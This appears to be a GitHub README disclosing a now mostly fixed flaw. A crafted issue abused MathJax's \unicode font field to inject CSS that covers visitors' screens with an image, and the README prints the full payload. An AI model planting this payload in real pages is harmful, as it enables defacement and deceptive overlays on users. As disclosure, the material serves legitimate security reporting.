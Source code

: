 # Update

This issue has since been (Mostly) fixed.

# GithubFullscreenIssuePoC

This repo is to demonstrate an issue with Github that covers the users screen with an image / gif when they visit a custom crafted issue / user profile.

Issue Link / PoC: [Here](https://github.com/Reelix/GithubFullscreenIssuePoC/issues/1)  

Fullscreen Repo Demo: [Here](https://github.com/Reelix/GithubFullscreenIssuePoC2)

Note: Issue as been closed and locked due to abuse by third-party users.  

Issue Source (May contain needless markup - PoC was taken and modified from live exploits):

```
Test

$$\ce{$\unicode[goombafont; color:red; pointer-events: none; z-index: 5; position: fixed; inset: 0; opacity: 100%; background-size: 100% 100%; background-image: url('https://raw.githubusercontent.com/Reelix/GithubFullscreenIssuePoC/main/Github-Logo.png');]{x0000}$}$$
```
